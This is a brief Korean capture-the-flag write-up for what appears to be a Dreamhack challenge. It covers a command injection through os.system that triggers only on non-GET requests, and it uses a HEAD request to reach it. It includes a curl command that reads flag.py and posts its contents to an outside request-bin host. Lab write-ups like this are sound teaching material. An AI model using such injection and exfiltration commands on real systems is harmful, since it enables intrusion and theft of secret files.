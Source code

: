 ## 해설
### 문제점
---
os.system에 cmd를 그대로 입력받아서 cmd를 조작할 수 있다. 하지만 GET메소드가 아닐 때만 실행된다.
### 익스플로잇
GET메소드 외의 허용가능 메소드를 Burp Suite를 이용하여 OPTIONS로 확인하니 HEAD가 가능했다. 하지만 HEAD는 response가 없으므로 os.system에서 다른 서버로 flag를 보냈다. 이 때 드림핵에서 request.bin을 이용하여 값을 받았다. `curl 드림핵링크 -d "$(cat flag.py)"`를 이용했다.